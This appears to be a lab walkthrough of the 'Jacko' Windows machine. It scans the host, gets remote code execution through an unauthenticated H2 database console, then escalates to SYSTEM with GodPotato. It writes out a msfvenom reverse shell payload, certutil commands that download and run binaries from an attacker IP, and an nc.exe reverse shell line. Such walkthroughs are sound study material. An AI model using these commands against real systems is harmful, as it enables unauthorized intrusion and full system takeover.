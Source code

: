 # Jacko

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.66
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 18:07 +08
Nmap scan report for 192.168.197.66
Host is up (0.17s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
5040/tcp  open     unknown
8082/tcp  open     blackice-alerts
9092/tcp  open     XmlIpcRegSvc
41213/tcp filtered unknown
49664/tcp open     unknown
49665/tcp open     unknown
49666/tcp open     unknown
49667/tcp open     unknown
49668/tcp open     unknown
49669/tcp open     unknown
57199/tcp filtered unknown
```

Lots of ports. I did a detailed `nmap` scan to further enumerate the ports. We would find a H2 Instance on one of the ports from this scan:

```
$ sudo nmap -p 80,135,139,445,5040,8082,9092 -sC -sV -O -T4 -Pn 192.168.197.66
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 18:25 +08
Nmap scan report for 192.168.197.66
Host is up (0.17s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: H2 Database Engine (redirect)
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5040/tcp open  unknown
8082/tcp open  http          H2 database http console
|_http-title: H2 Console
9092/tcp open  XmlIpcRegSvc?
```

The H2 Database does have a few code execution exploits that might work.&#x20;

### H2 Database --> RCE

Port 8082 shows us the login to the H2 database.

<figure><img src="../../../.gitbook/assets/image (27) (5) (2).png" alt=""><figcaption></figcaption></figure>

We can just click 'Connect', and login successfully.

<figure><img src="../../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

This version has code execution exploits available:

```
$ searchsploit H2 Database 1.4.199
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
H2 Database 1.4.199 - JNI Code Execution                   | java/local/49384.txt
----------------------------------------------------------- ---------------------------------
```

To exploit this, we would need to just copy and paste the script contents of the `searchsploit` file twice, and we would get RCE:

<figure><img src="../../../.gitbook/assets/image (16) (3).png" alt=""><figcaption></figcaption></figure>

To get a reverse shell, simply use these 2 commands with a `msfvenom` generated payload.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.177 LPORT=21 -f exe > pwn.exe
certutil -urlcache -split -f http://192.168.45.177/pwn.exe C:\\Windows\\Tasks\\pwn.exe
C:\\Windows\\Tasks\\pwn.exe
```

<figure><img src="../../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

`whoami.exe` is located in `C:\Windows\System32`, and this machine has a broken PATH variable.

## Privilege Escalation

### PrintSpoofer Fail

We can check our privileges using `whoami.exe`:

```
C:\Windows\System32>whoami.exe /priv
whoami.exe /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

The `SeImpersonatePrivilege` is enabled, so we can use `PrintSpoofer.exe` to exploit this. First, let's download the binary to the machine:

```
C:\Windows\System32>certutil -urlcache -split -f http://192.168.45.177/PrintSpoofer.exe C:/Windows/Tasks/print.exe
certutil -urlcache -split -f http://192.168.45.177/PrintSpoofer.exe C:/Windows/Tasks/print.exe
****  Online  ****
  0000  ...
  6a00
CertUtil: -URLCache command completed successfully.
```

However, the exploit seems to fail:

```
C:\Users\tony\Desktop>.\print.exe -i -c cmd
.\print.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[-] Operation failed or timed out
```

So we have to find another way.&#x20;

### GodPotato.exe

We can try using `GodPotato.exe` since that privilege is probably the intended solution:

```
C:\Windows\Tasks>.\godpotato.exe -cmd "cmd /c whoami"
.\godpotato.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140725151858688
[*] DispatchTable: 0x140725154201184
[*] UseProtseqFunction: 0x140725153568784
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\509f9274-ba8c-4b7c-844e-55d04cdf359c\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00009002-05c4-ffff-2de7-6cc9f11fd1cf
[*] DCOM obj OXID: 0x20259e4ef373758d
[*] DCOM obj OID: 0xdee8046159a66ec5
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 800 Token:0x504  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 408
```

Looks like it works well. Now we can download `nc.exe` onto the machine and get ourselves another reverse shell.&#x20;

```
C:\Windows\Tasks>.\godpotato.exe -cmd "cmd /c C:/Windows/Tasks/nc.exe 192.168.45.177 4444 -e cmd.exe
.\godpotato.exe -cmd "cmd /c C:/Windows/Tasks/nc.exe 192.168.45.177 4444 -e cmd.exe"
[*] CombaseModule: 0x140725151858688
[*] DispatchTable: 0x140725154201184
[*] UseProtseqFunction: 0x140725153568784
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\36900a7f-bec3-4dd7-9606-fc8ece7a7d11\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00008802-0d1c-ffff-64b7-d6de22e4ee03
[*] DCOM obj OXID: 0x1bb30dc7fc7c0cb7
[*] DCOM obj OID: 0x770fb99694a2c278
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 800 Token:0x504  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 1592
```

<figure><img src="../../../.gitbook/assets/image (13) (5).png" alt=""><figcaption></figcaption></figure>

This is a SYSTEM shell, and we can grab the required flags. Rooted!
